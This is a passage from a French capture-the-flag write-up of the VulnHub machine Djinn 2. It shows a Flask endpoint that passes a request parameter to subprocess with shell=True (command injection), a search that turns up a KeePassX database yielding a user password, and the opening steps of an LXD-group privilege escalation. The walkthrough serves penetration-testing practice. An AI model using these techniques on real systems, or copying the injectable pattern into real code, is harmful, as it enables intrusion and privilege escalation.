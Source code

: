 ```python
    command = request.args.get("username")
    if validate(command):
        output = subprocess.Popen(command, shell=True,
                                  stdout=subprocess.PIPE).stdout.read()
    else:
        output = "Access Denied!!"
    return output


if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)
```

On ne peut pas chainer les commandes mais on peut les passer les uns après les autres.

Les deux process Flask tournent en `www-data` du coup inutile de s'y attader.

On trouve sur le système un utilisateur Nitish qui a une base de données KeePassX dans `/var/backups` :

```bash
www-data@djinn:/opt$ find / -user nitish -ls 2> /dev/null 
   525042      4 -rwxr-xr-x   1 nitish   nitish       2174 Dec 20  2019 /var/backups/nitu.kdbx
   540827      4 drwxr-x---   4 nitish   nitish       4096 Jan 21  2020 /home/nitish
```

Cette fois otre identifiant sert à ouvrir le fichier kdbx avec KeepPassX et ainsi obtenir un mot de passe qui y était stocké :

![Djinn 2 VulnHub Nitish KeePassX](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/djinn_nitish_keepassx.jpg)

L'utilisation de ce mdp permet d'obtenir un shell :

```bash
nitish@djinn:~$ id
uid=1000(nitish) gid=1000(nitish) groups=1000(nitish),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
```

## lxc2root

L'utilisateur faisant partie du groupe `lxd` on va procédé à une escalade de privilège similaire à ce qu'il se fait avec Docker. Tout est documenté chez [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation).

Dans un premier temps sur ma machine je génère une image LXD de Alpine :

```bash
$ git clone https://github.com/saghul/lxd-alpine-builder
Clonage dans 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
Réception d'objets: 100% (50/50), 3.11 Mio | 1.02 Mio/s, fait.
Résolution des deltas: 100% (15/15), fait.
$ cd lxd-alpine-builder
$ sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
$ ./build-alpine -h
build-alpine: must be run as root
$ sudo ./build-alpine
[sudo] Mot de passe de root : 
which: no apk in (/usr/sbin:/usr/bin:/sbin:/bin:/usr/sbin:/usr/bin:/sbin:/bin)
Determining the latest release... v3.8
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.8/main/x86_64
Downloading alpine-keys-2.1-r1.apk
tar: Le mot clé inconnu « APK-TOOLS.checksum.SHA1 » pour l'en-tête étendu a été ignoré
```